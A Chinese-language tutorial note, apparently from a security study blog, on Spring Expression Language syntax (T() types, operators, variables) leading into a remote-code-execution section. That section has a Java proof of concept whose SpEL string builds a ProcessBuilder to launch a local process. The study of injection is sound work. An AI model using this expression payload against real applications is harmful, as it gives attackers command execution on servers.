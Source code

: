 <a name="tfPc1"></a>
# T()表达式
```java
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class Spelvultest {
    public static void main(String[] args) {
        String cmdStr = "T(java.lang.String)";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
![微信截图_20230808154949.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691480995436-3b5ef474-8176-44d6-9f7f-7dc0845867a3.png#averageHue=%23857560&clientId=udc01bdaa-c13d-4&from=paste&height=141&id=uf97fd52d&originHeight=176&originWidth=778&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=11380&status=done&style=none&taskId=ua84173ba-d729-4d1a-8acb-824e962b7e4&title=&width=622.4)

T()中的内容被解析成一个类。

<a name="quEgp"></a>
# 运算符
SpEL提供了以下几种运算符：

| **运算符类型** | **运算符** |
| --- | --- |
| 算数运算 | +, -, *, /, %, ^ |
| 关系运算 | <, >, ==, <=, >=, lt, gt, eq, le, ge |
| 逻辑运算 | and, or, not, ! |
| 条件运算 | ?:(ternary), ?:(Elvis) |
| 正则表达式 | matches |


变量定义和引用在SpEL表达式中，变量定义通过EvaluationContext类的setVariable(variableName, value)函数来实现；在表达式中使用”#variableName”来引用；除了引用自定义变量，SpEL还允许引用根对象及当前上下文对象：

#this：使用当前正在计算的上下文；<br />#root：引用容器的root对象；<br />@something：引用Bean。

<a name="BhoSr"></a>
# rce
<a name="q5X5i"></a>
## ProcessBuilder
```java
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class Spelvultest {
    public static void main(String[] args) {
        String cmdStr = "new java.lang.ProcessBuilder(new String[]{\"calc\"}).start()";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
